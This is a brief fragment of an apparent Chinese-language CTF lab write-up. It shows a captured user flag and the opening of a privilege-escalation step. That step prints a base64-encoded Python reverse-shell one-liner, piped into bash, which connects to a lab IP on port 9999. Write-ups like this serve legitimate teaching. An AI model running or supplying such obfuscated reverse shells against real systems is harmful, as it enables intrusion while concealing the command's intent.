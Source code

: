 ![img](img/image_20250428-152841.png)

```flag title="/home/pentester/user.txt"
Flag{c4f9375f9834b4e7f0a528cc65c055702bf5f24a}
```

## 提权至 xiix

先反弹 shell

```bash
> echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguNTYuMTI3Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw== | base64 -d | bash
```
